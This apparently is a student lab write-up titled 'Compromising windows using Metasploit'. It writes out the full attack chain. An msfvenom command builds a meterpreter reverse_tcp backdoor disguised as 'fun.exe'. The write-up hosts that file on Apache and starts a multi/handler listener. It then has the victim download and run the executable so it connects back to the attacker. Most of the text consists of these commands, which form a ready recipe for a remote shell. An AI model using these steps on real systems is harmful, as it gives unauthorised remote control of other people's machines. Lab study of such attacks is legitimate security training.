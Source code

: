 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

### Find the attackers ip address using ifconfig
![alt text](Images/1.png)
### Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![alt text](Images/2.png)
### copy the fun.exe into the apache /var/www/html folder
![alt text](Images/3.png)
### Start apache server sudo systemctl apache2 start
![alt text](Images/4.png)
### Check the status of apache2
![alt text](Images/5.png)
### Invoke msfconsole:

## OUTPUT:

### Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![alt text](Images/6.png)
### On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

